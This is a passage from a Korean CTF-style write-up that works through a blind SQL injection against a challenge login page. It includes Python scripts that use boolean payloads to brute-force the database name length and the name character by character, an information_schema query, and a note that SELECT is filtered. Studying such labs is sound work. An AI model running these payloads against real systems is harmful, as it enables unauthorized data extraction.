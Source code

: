 * **DB 이름 길이 알아내기**

```python
# Database Length
i = 0
while True:
    # guest' and length(database()) = i#
    payload = f'guest\' and length(database()) = {i} -- '
    param = {'id' : payload, 'pw' : '1'}
    r = requests.get(url, params = param)
    
    if r.text.__contains__('wrong'):
        db_length = i
        break
    i += 1
print(f':::: DB Length :::: {db_length}')
```

이를 통해서 해당 로그인 관련 DB의 길이가 10인 것을 알 수 있다.

* **DB 이름 알아내기**

```python
# Database Name
db_name = ''
for i in tqdm(range(1, db_length + 1)):
    for ch in tc:
        # guest' and j = ascii(substring(db_name(), i, 1))
        payload = f'guest\' and ascii(substring(database(), {i}, 1)) = {ord(ch)} -- '
        param = {'id' : payload, 'pw' : '1'}
        r = requests.get(url, params = param)
        
        if r.text.__contains__('wrong'):
            db_name += ch
            break
print(f':::: DATABASE NAME :::: {db_name}')
```

해당 Database의 이름이 `webhacking`인 것까지 알 수 있었다. 이후 해당 DB의 테이블이 몇개로 이루어져 있는지 알아야 한다.

* **해당 DB의 테이블 이름 길이 알아내기**

```sql
((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema = 'webhacking') = {i})
```

해당 문법을 통해서 테이블의 개수를 알아보고자 했으나 계속 나오지 않자 홈페이지에서 확인해보니 아래와 같았다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/209286986-f2ee23ac-0c53-47b1-87cc-67527d499c8b.png" width = 360> 
</p>

**no hack** 문구와 함께 다른 결과를 가져왔다. 따라서, 키워드 별로 입력해보니 `SELECT`가 필터링되고 있는 것을 알 수 있다.

`SELECT`가 필터링되고 있는 경우를 찾아보니 많이 복잡한 것으로 확인됐다...

하지만, 우리가 예상하고 있던 쿼리문을 보면 아래와 같다. 
